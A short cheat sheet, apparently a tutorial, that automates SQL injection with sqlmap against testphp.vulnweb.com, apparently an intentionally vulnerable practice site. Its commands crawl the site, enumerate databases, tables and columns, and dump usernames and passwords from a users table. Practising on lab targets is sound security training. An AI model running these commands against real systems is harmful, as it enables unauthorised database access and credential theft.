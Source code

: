 ## Sql Injection automation

Target Domain http://testphp.vulnweb.com

Crawling

    sqlmap -u "http://testphp.vulnweb.com" --crawl=2 -v --random-agent --batch -o crawl.txt

All DBMS name

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -dbs -v --random-agent --batch -o dbs.txt

Dump Full Table

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables -v --random-agent --batch -o table.txt

Dump Full Column

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns -v --random-agent --batch -o columns.txt

Dump Column data

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C uname,pass --dump -v --random-agent --batch -o dump-dbs-data.txt
